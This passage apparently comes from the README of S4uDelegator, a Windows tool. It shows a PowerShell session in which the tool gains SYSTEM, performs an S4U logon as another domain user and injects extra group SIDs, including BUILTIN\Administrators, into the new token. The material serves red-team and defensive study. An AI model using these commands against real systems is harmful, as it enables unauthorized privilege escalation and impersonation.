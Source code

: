 If you want to add extra group information, set group SIDs with comma separated value with `-e` option as follows:

```
PS C:\Tools> whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104
PS C:\Tools> .\S4uDelegator.exe -x -d contoso -n jeff -e S-1-5-32-544,S-1-5-20 -c powershell

[*] S4U logon target information:
    [*] Account : CONTOSO\jeff
    [*] SID     : S-1-5-21-3654360273-254804765-2004310818-1105
    [*] UPN     : jeff@contoso.local
    [*] Type    : User
[>] Verifying extra group SID(s).
[*] BUILTIN\Administrators (SID : S-1-5-32-544) will be added as a group.
[*] NT AUTHORITY\NETWORK SERVICE (SID : S-1-5-20) will be added as a group.
[>] Trying to get SYSTEM.
[+] Got SYSTEM privileges.
[>] Trying to S4U logon.
[+] S4U logon is successful.
[>] Trying to create a token assigned process.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Tools> whoami /user

USER INFORMATION
----------------

User Name    SID
============ =============================================
contoso\jeff S-1-5-21-3654360273-254804765-2004310818-1105
PS C:\Tools> whoami /groups                                                                                             
GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                 Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK SERVICE           Well-known group S-1-5-20                                      Mandatory group, Enabled by default, Enabled group
```